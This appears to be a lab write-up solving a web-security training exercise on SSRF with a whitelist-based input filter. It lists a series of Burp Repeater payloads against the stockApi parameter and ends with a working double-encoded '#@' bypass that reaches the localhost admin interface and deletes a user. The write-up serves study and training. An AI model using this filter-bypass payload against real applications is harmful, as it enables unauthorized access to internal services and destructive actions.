 ### Lab: SSRF with whitelist-based input filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.

_____

Analysis and Exploit:

1. "Stock Check" feature can be found at **/product?productId=[ID]**
    - POST **/product/stock**
    - stockApi = http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1 (http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1)

2. Attempts **[BURP-REPEATER]**:
    - stockApi=http://localhost == "External stock check host must be stock.weliketoshop.net"
    - stockApi=http://stock.weliketoshop.net == 500 Internal Server Error / "Could not connect to external stock check service"
    - http://stock.weliketoshop.net:8080 == 400 Bad Request / "Missing parameter"
    - http%253a//stock.weliketoshop.net%253a8080 (url-encode x2) / 400 / "External stock check host must be stock.weliketoshop.net"
    - http%3a//stock.weliketoshop.net%3a8080 (url-encode x1) / 400 / "Missing parameter
    - http%3a//stock.weliketoshop.net+ / 400 / "Invalid external stock check url 'Illegal character in authority at index 7: http://stock.weliketoshop.net '"
    - http%3a//stock.weliketoshop.net%40 (@) / 400 / "External stock check host must be stock.weliketoshop.net"
    - http%3a//stock.weliketoshop.net%23 (#) / 500 / "Could not connect to external stock check service" 
    - http://localhost#@stock.weliketoshop.net / 400 / "External stock check host must be stock.weliketoshop.net"
    - http:// localhost%23@stock.weliketoshop.net / 400 / "External stock check host must be stock.weliketoshop.net"
    - http:// localhost%2523@stock.weliketoshop.net / 200
3. Delete user _carlos_ **[BURP-REPEATER]**
    - http:// localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
        - HTTP/2 302 Found
            - HTTP/2 401 Unauthorized "Admin interface only available if logged in as an administrator, or if requested from loopback"

**NOTE**: URL parsers do not work in the same way. In this lab, the parser reads **http://** and what comes next is considered to be the site to reach.
Using the feature # and @, supported by HTTP and URL, we can 'break' the parsing process (combined with encoding or double enconding of special caharacters).  
The # symbol is read by the parser as a sort of shortcut to reach a specific 'id' in the HTML, while the @ symbol is used to embed credentials in the URL.  
Since the parser decodes only 1 time the URL, the double encoded symbol # breaks the parsing process, the needed site 'stock.weliketoshop.net' is still present but ignored.  
Everything passed after a new / is considered to be a page to reach at the given site, localhost in this case.  

_____

Script:

1. Delete user | POST **/product/stock** | params: stockApi
    - stockApi: http://localhost%23@stock.weliketoshop.net/admin/delete?username=carlos
        - Symbol # encoded once because the urllib encoded it one more time by default